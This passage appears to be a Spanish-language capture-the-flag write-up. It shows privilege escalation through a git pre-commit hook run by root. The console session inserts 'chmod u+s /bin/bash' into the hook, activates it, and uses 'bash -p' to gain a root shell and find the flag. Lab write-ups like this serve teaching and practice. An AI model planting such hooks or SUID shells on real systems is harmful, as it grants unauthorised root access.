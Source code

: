 ```console
********************************************************
```

> Puedes decargar la herramienta en el siguiente repositorio [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)
{: .prompt-info}

Observamos que existe un proceso donde el usuario `root` está ejecutando comandos con `git`. Averiguando posibles vulnerabilidades encontramos que al utilizar `git hooks` para ejecutar comandos, pero qué es exactamente?

> Git hooks
>
> Son scripts automatizados al utilizar comandos git, osea, se enganchan a comandos de git (g.e __git commit, git add, git push__)

> Mas información sobre [Git Hooks](https://medium.com/@gonzaloandres.diaz/escribiendo-codigo-de-alta-calidad-en-python-parte-3-hooks-f3970a4bcdd7)
{: .prompt-info}

> Página de binarios Unix que pueden ser explotados como `git` [https://gtfobins.github.io/gtfobins/git/](https://gtfobins.github.io/gtfobins/git/)
{: .prompt-info}

Al iniciar un repositorio, estos scripts se almacenan en la ruta `.git/hooks` y sus respectivos nombres descriptivos `.sample` de acuerdo a la acción que realizarán. Para **activar** su ejecución solo debemos quitarle la terminación `.sample`

Observamos que se está ejecutando `git commit -m ...`, luego se hace un `push` y un `git remote` sobre el repositorio del usuario `dev01`. Con esa información podemos deducir que debemos aplicar está explotación sobre ese repositorio que tenemos en la ruta `home/dev01/.git`, con lo cuál podemos usar el script `pre-commit.sample` almacenado en `/hooks`, insertar que se asigne **permisos SUID al a la bash** y luego acceder como su propietario `root` y obtener la flag:

```console
bash-4.4$ pwd
/home/dev01/.git/hooks
bash-4.4$ ls -l /bin/bash 	<------------------------------------ check bash permissions (not SUID)
-rwxr-xr-x 1 root root 1113504 Apr 18 15:08 /bin/bash
bash-4.4$ head -n 5 pre-commit.sample 	  <-------------------------- check hook (script) to be executed before commit command
#!/bin/sh
#
# An example hook script to verify what is about to be committed.
# Called by "git commit" with no arguments.  The hook should
# exit with non-zero status after issuing an appropriate message if
bash-4.4$ sed -i "2i chmod u+s /bin/bash" pre-commit.sample <-------- add in the second line command to assign SUID permissions to bash
bash-4.4$ head -n 5 pre-commit.sample 	  <-------------------------- check changes
#!/bin/sh
chmod u+s /bin/bash
#
# An example hook script to verify what is about to be committed.
# Called by "git commit" with no arguments.  The hook should
bash-4.4$ mv pre-commit.sample pre-commit	<---------------------- rename to activate the script and root run it
bash-4.4$ ls -l /bin/bash	<-------------------------------------- check bash permissions (SUID)
-rwsr-xr-x 1 root root 1113504 Apr 18 15:08 /bin/bash
bash-4.4$ bash -p 		<-------------------------------------- run bash as the owning user (root user)
bash-4.4# whoami
root
bash-4.4# find / -name root.txt | xargs ls -l
-rw-r----- 1 root root 33 Jun 29 18:12 /root/root.txt
bash-4.4# 
``` 

